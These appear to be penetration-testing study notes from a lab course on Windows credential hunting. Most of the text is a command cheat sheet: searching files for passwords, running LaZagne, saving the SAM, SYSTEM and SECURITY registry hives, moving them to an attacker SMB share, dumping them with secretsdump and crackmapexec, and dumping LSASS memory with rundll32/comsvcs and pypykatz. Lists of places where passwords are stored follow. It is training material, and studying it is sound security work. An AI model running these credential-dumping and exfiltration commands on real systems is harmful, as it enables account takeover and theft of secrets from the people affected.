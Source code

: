 
## Windows Password Hunting

| Command                                                                                                                           | Description                                                                |
| --------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------- |
| `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml`                                                   | Search for `string within files` (password)                                |
| `start lazagne.exe all`                                                                                                           | `Automated` system search for credentials                                  |
| `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/`                | Creating an `SMB share` to transfer files from Windows OS on linux machine |
| `move sam.save \\10.10.15.16\CompData`                                                                                            | Moving file from Windows host to `SMB share`                               |
| `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL` | Using `secretsdump` to dump secrets from `SAM files`                       |
| `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa`                                                  | Dump `LSA` secrets remotely                                                |
| `crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam`                                                  | Dump the `SAM` database remotely                                           |
| `Get-Process lsass`                                                                                                               | Finding `LSASS PID` in PowerShell                                          |
| `tasklist /svc`                                                                                                                   | Finding `LSASS PID` in cmd                                                 |
| `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`                                                        | Creating `lsass.dmp` in PowerShell                                         |
| `pypykatz lsa minidump /home/peter/Documents/lsass.dmp`                                                                           | Extracting credentials from `lsass.dmp` on linux machine                   |
| `crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares`                                                                 | Enumerating `SMB` shares                                                   |
| `smbclient -U user \\\\10.129.42.197\\SHARENAME`                                                                                  | Connecting to `SMB` share                                                                           |

---

Here is a small list of files that can contain hashed passwords:

|**`Windows`**|**`Linux`**|
|---|---|
|unattend.xml|shadow|
|sysprep.inf|shadow.bak|
|SAM|password|


---

| Name         | Description                                                     | Link                                   |
| ------------ | --------------------------------------------------------------- | -------------------------------------- |
| lazagne.exe  | Automated system search for `credentials`                       | https://github.com/AlessandroZ/LaZagne |
| winpeas.exe  | Automated system search for `credentials` and `vulnerabilities` |                                        |
| pypykatz     | Extract credentials from `lsass.dmp` file                       | https://github.com/skelsec/pypykatz    |
| mimikatz.exe |                                                                 |                                        |


third-party tools like [Lazagne](https://github.com/AlessandroZ/LaZagne) to quickly discover credentials that web browsers or other installed applications may insecurely store. 

---

Here are some other places we should keep in mind when credential hunting:

- Passwords in Group Policy in the SYSVOL share
- Passwords in scripts in the SYSVOL share
- Password in scripts on IT shares
- Passwords in web.config files on dev machines and IT shares
- unattend.xml
- Passwords in the AD user or computer description fields
- KeePass databases --> pull hash, crack and get loads of access.
- Found on user systems and shares
- Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, [Sharepoint](https://www.microsoft.com/en-us/microsoft-365/sharepoint/collaboration)

---
#### Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:

|Registry Hive|Description|
|---|---|
|`hklm\sam`|Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
|`hklm\system`|Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
|`hklm\security`|Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|

We can create backups of these hives using the `reg.exe` utility.

#### Using reg.exe save to Copy Registry Hives

Launching CMD as an admin will allow us to run reg.exe to save copies of the aforementioned registry hives. Run these commands below to do so:

  Using reg.exe save to Copy Registry Hives

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

---

## Dumping LSASS Process Memory

Similar to the process of attacking the SAM database, with LSASS, it would be wise for us first to create a copy of the contents of LSASS process memory via the generation of a memory dump. Creating a dump file lets us extract credentials offline using our attack host. 
#### Task Manager Method

With access to an interactive graphical session with the target, we can use task manager to create a memory dump. This requires us to:

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

A file called `lsass.DMP` is created and saved in:

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

#### Rundll32.exe & Comsvcs.dll Method

The Task Manager method is dependent on us having a GUI-based interactive session with a target. We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32). It is important to note that modern anti-virus tools recognize this method as malicious activity.

Before issuing the command to create the dump file, we must determine what process ID (`PID`) is assigned to `lsass.exe`. This can be done from cmd or PowerShell.

